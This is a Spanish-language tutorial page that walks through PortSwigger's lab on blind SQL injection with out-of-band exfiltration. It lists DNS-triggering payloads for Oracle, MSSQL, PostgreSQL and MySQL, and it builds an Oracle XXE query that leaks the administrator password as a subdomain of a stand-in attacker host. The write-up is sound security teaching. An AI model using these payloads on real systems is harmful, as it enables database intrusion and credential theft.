 ```yaml
---
layout: default
title: Ejercicio práctico
permalink: /injection_types/blind/oob_type/oob_exercise
nav_order: 1
parent: 4.4 Fuera de banda
grand_parent: 4. Inyecciones ciegas
---
```


# Ejercicio práctico de inyección fuera de banda

> Ejercicio basado en el laboratorio "Lab: Blind SQL injection with out-of-band data exfiltration" de Web Security Academy (PortSwigger).

## Consigna

Este laboratorio contiene una vulnerabilidad de inyección de SQL ciega. La aplicación usa una cookie de rastreo (*tracking*) para análisis y ejecuta una consulta SQL con el valor de esta cookie. 

Sin embargo, las consultas se ejecutan de forma asincrónica y no tienen ningún efecto en la respuesta de la aplicación. Por lo que, se debe probar extraer la información mediante otro canal.

La base de datos contiene una tabla diferente llamada `users`, con columnas llamadas `username` y `password`.

Para resolver el laboratorio, obtener el usuario y contraseña del usuario `administrator` e iniciar sesión con estas credenciales.

## Resolución con Burp Collaborator

Para la resolución de este laboratorio se utilizará el servidor de **Burp Collaborator** el cual está publicado a Internet y puede funcionar como canal para recibir la información. Si bien existen herramientas alternativas gratuitas, el laboratorio está configurado para únicamente comunicarse con dominios asociados a PortSwigger.

La consigna menciona que no es posible observar cambios de comportamiento sobre la aplicación, por lo que todas las pruebas deben apoyarse directamente en el servidor auxiliar externo. Para ello, acceder a la pestaña `Collaborator` (solo disponible para *Burp Suite Professional*).

![Collaborator](/test-page/assets/oob_ex_1.png)

Al presionar `Copy to clipboard` automáticamente se obtiene un **subdominio único** el cual se puede usar como canal para visualizar las respuestas DNS y HTTP del servidor de *Collaborator*.

Para identificar el DBMS y qué *payload* es válido, es pertinente probar los diferentes métodos mencionados en la [SQL Injection Cheat Sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet) y así forzar una consulta DNS:

- **Oracle**: 
	```sql
	SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://dominio-atacante.net/">
	 %remote;]>'),'/l') FROM dual
	```
	```sql
	SELECT UTL_INADDR.get_host_address('dominio-atacante.net')
	```
- **Microsoft**:
	```sql
	exec master..xp_dirtree '//dominio-atacante.net'`
	```
- **PostgreSQL**:
	```sql
	COPY (SELECT '') TO program 'nslookup dominio-atacante.net'`
	```
- **MySQL**:
	```sql
	LOAD_FILE('\\\\dominio-atacante.net\a')`  
	```
	```sql
	SELECT ... INTO OUTFILE '\\\\dominio-atacante.net\a'`
	```

Una consulta exitosa generaría una resolución DNS sobre el dominio utilizado, esto sería visualizado de la siguiente manera en la sección `Collaborator`:

![Collaborator 2](/test-page/assets/oob_ex_2.png)

La exitosa es la de Oracle con XML. Habiendo identificado el DBMS, sumado a los datos facilitados en la consigna, solo resta construir la consulta mediante la cual se extraerá la información. La técnica exitosa aprovecha una entidad externa XML (XXE) para activar una búsqueda de DNS. No está dentro del alcance de esta documentación explicar por qué funciona (se recomienda ver el [módulo XXE de la Web Security Academy](https://portswigger.net/web-security/xxe)). Lo importante es entender la posición de inyección y que la URL del *payload* debe ser reemplazada por la que provee *Burp Collaborator*. Con el siguiente fragmento simplificado de inyección:

```sql
SELECT EXTRACTVALUE(xmltype('<!DOCTYPE root [ <!ENTITY % remote SYSTEM 
	"http://'||(SELECT YOUR-QUERY-HERE)||'.dominio-atacante.net/"> 
	%remote;]>'),'/l') FROM dual
```

**se inserta como subdominio** el resultado de una consulta arbitraria. Por ejemplo, si la consulta fuera `SELECT 'jeje'`, el DBMS intentaría resolver el subdominio `jeje.dominio-atacante.net`. Por lo tanto, para obtener la contraseña del administrador, se inserta `SELECT password FROM users WHERE username='administrator'`. Finalmente, consulta final es:

```sql
SELECT EXTRACTVALUE(xmltype('<!DOCTYPE root [ <!ENTITY % remote SYSTEM 
	"http://'||(SELECT password FROM users WHERE username='administrator')
	||'.dominio-atacante.net/"> %remote;]>'),'/l') FROM dual
```

Suplantar el valor de la cookie con el payload final de inyección resulta en el siguiente pedido HTTP:

![Repeater](/test-page/assets/oob_ex_3.jpeg)

Notar que se utiliza un dominio de *Burp Collaborator* (`oastify.com`), y que los caracteres `%` y `;` fueron reemplazados por `%25` y `%3b` respectivamente. Estas son sus codificaciones para URL y son necesarias para no generar conflicto con la interpretación/*parsing* de la cookie. Observando la respuesta en el historial de la pestaña `Collaborator`:

![Collaborator 3](/test-page/assets/oob_ex_4.png)

se aprecia la contraseña de la consulta inyectada como subdominio en la solicitud DNS.
